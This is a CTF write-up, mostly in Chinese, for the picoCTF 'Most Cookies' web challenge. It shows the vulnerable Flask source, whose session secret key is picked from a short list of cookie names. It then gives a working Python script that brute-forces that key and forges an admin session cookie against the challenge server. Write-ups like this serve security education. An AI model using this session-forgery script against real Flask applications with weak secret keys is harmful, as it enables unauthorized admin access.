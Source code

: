 ```yaml
---
title: PicoCTF - Most Cookies
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - Most Cookies
<!-- more -->
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Python Flask session 學習心得](https://vocus.cc/article/634c1c7efd89780001237de9)
> 在Flask將資料儲存在session這個object裡面時，可看成是儲存在client端，因為資料其實是存在web server，每次新增內容到session就會新增一個新的cookie(cryptographically-signed cookies)，並透過secret_key做簽章。需注意的是這所謂的「secret_key」並不是用於加密(切勿儲存機密資料)，而是用來做數位簽章確認資料的完整性，簡單說是每個人都可以知道cookie裡面的資料，但只有server知道cookie是否被串改，如果被串改就無法登入該帳戶。

## Source code
:::spoiler Source Code
```python=
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```
:::

## Recon
這一題看起來很簡單，我一開始也想說只要用Burp的intruder爆破name就好，不過看了一下sauce，發現他還有一個驗證機制，就是判斷cookie的value要是admin，但看了一下cookie的形式發現有點類似JWT的感覺`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJEZ8A.b5j77V6nA0V6dzYvM_hg3yYRgJc`(當然它不是JWT只是形式有點像)，尤其是這學期修了CNS，所以對JWT直覺有點難搞，果不其然，在sauce的第7行有設定`secret_key`當作session簽章的依據，然後在`/display`的地方進行驗證
1. `name`參數要有值且必須是`cookie_names` list的其中一種
2. session的`very_auth`的value一定要是admin
3. session的signature也要forge

## Exploit - Brute Force
```python=
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	for name in cookie_names:
		session = {}
		session["very_auth"] = "admin"
		cookie = encodeFlaskCookie(name, session)
		r = requests.get("http://mercury.picoctf.net:6259/display", cookies={"session":cookie}, allow_redirects=False)
		if "picoCTF" in r.text:
			print(r.text)
			break
```

## Reference
[picoCTF 2021 Most Cookies](https://youtu.be/8DrqOFr_SV8)
[manageFlaskSession.py source code](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)
[Python Web Flask — 如何透過Form取得資料](https://medium.com/seaniap/python-web-flask-如何透過form取得資料-7a63ebf9ff1f)
[[Flask教學] Flask Session 使用方法和介紹](https://www.maxlist.xyz/2019/06/29/flask-session/)
[Most Cookies - Write up 1](https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies)
[Most Cookies - Write up 2](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md)